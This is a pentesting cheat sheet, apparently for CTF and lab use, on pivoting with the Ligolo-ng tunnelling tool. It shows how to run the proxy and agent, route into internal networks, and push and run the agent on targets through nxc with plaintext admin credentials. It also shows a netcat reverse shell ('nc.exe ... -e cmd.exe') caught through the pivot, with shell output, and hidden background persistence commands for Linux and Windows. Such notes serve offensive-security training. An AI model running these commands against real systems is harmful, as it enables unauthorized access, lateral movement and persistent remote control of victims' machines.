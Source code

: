 # Ligolo-ng

## Pivoting

Launch `ligolo-proxy`:&#x20;

* `-selfcert` for when the environment has no internet availability, e.g. CTFs/labs
* `-autocert` for when there is internet available on the environment

{% hint style="warning" %}
When `-autocert` is used, port 80 needs to be accessible for Let's Encrypt certificate validation/retrieval.
{% endhint %}

```bash
./proxy [-selfcert | -autocert] -laddr 0.0.0.0:443
```

Connect to the proxy from the target machine:

```bash
# When -selfcert is used on the proxy
./agent -connect 10.129.204.146:11601:443 -ignore-cert -retry

# When -autocert is used on the proxy
./agent -connect 10.129.204.146:11601:443 -retry
```

The routing configuration can be done using the `autoroute` option or step by step following the rest of the tabs:

{% code overflow="wrap" %}
```bash
# Receive the agent connection
ligolo-ng » INFO[0052] Agent joined.   id=0050569e00f6 name="DOMAIN\x7331@MS01" remote="192.168.103.141:49318"

# List active sessions
ligolo-ng » session

# Choose the target session
? Specify a session : 1 - DOMAIN\x7331@MS01 - 192.168.103.141:49318 - 0050569e00f6

# Configure the routing options
[Agent : OSCP\eric.wallows@MS01] » autoroute

# Choose the target network
? Select routes to add: 10.10.63.141/24

# Create a new interface
? Create a new interface or use an existing one? Create a new interface
INFO[0105] Generating a random interface name...
INFO[0105] Using interface name savinglester
INFO[0105] Creating routes for savinglester...

# Start the tunnel via the newly-created interface
? Start the tunnel? Yes
INFO[0106] Starting tunnel to DOMAIN\x7331@MS01 (0050569e00f6)
```
{% endcode %}

## Port-Forward

{% tabs %}
{% tab title="1. Routing" %}
To access local ports on the connected agent, `ligolo-ng` uses a hardcoded "magic" CIDR: `240.0.0.0/4`:

```bash
$ sudo ip route add 240.0.0.1/32 dev ligolo
```
{% endtab %}

{% tab title="2. Interact" %}
Now, any IP queried in this unused subnet is automatically redirected to the agent's `127.0.0.1`. For instance, the below scan will scan the target's loopback address (`127.0.0.1`):

```bash
$ nmap 240.0.0.1
```
{% endtab %}
{% endtabs %}

## Agent Transfer & Execution

We don't need elevated privileges on the target to use the `ligolo-agent`.

{% tabs %}
{% tab title="Transfer" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth --put-file 'agent.exe' '\Windows\Temp\agent.exe'
```
{% endcode %}
{% endtab %}

{% tab title="Execute" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth -x '\Windows\Temp\agent.exe -connect 10.10.15.223:11601 -ignore-cert'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Reverse Shell

We have a route to the target network, but the target network does not have a route to our attack host. Thus, if we want to catch a reverse shell from a target other than the pivot host:

{% tabs %}
{% tab title="1. Listener Setup" %}
Create a listener on the agent/pivot host (`0.0.0.0:3000`) that will redirect the traffic to our proxy/attack host (`127.0.0.1:4444`).

{% code overflow="wrap" %}
```bash
[Agent : pivot@pivot-machine] >> listener_add --addr 0.0.0.0:3000 --to 127.0.0.1:4444 --tcp
INFO[0373] Listener 0 created on remote agent!
```
{% endcode %}

Start listening from our attack host:

```bash
$ nc -lvnp 4444
listening on [any] 4444...
```
{% endtab %}

{% tab title="2. Connect from Target" %}
Transfer the binary to the target:

{% code overflow="wrap" %}
```bash
nxc mssql 10.10.63.148 -u sql_svc -p Dolphin1 --put-file 'nc.exe' 'c:\windows\temp\nc.exe'
```
{% endcode %}

Connect from the target to the pivot machine (`10.10.63.147`) on the listening port (`30000`):

{% code overflow="wrap" %}
```bash
$ nxc mssql 10.10.63.148 -u sql_svc -p Dolphin1 -x 'c:\windows\temp\nc.exe 10.10.63.147 3000 -e cmd.exe'
```
{% endcode %}

This will connect to the agent's listener and then forwarded to our proxy:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.237] from (UNKNOWN) [192.168.45.237] 46144
...
C:\Windows\system32>whoami
nt service\mssql$sqlexpress

C:\Windows\system32>hostname
MS02
```
{% endtab %}
{% endtabs %}

## Persistence

{% code overflow="wrap" %}
```sh
# Linux targets
nohup /tmp/agent -connect 10.10.14.5:443 -ignore-cert > /dev/null 2>&1 &

# Windows targets
Start-Process -FilePath "C:\Windows\Temp\agent.exe" -ArgumentList "-connect 10.10.14.5:443 -ignore-cert" -WindowStyle Hidden
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="Documentation" %}
{% embed url="https://docs.ligolo.ng/" %}
{% endtab %}

{% tab title="Repo" %}
{% embed url="https://github.com/nicocha30/ligolo-ng" %}
{% endtab %}

{% tab title="Video Demo" %}
{% embed url="https://www.youtube.com/watch?v=qou7shRlX_s" %}
{% endtab %}
{% endtabs %}
